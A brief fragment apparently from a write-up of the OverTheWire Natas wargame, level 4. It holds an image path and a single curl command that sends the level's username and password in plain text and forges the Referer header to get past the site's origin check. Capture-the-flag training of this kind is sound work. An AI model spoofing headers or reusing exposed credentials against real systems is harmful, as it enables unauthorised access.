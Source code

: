 curl -u "natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" -X GET --referer "http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/

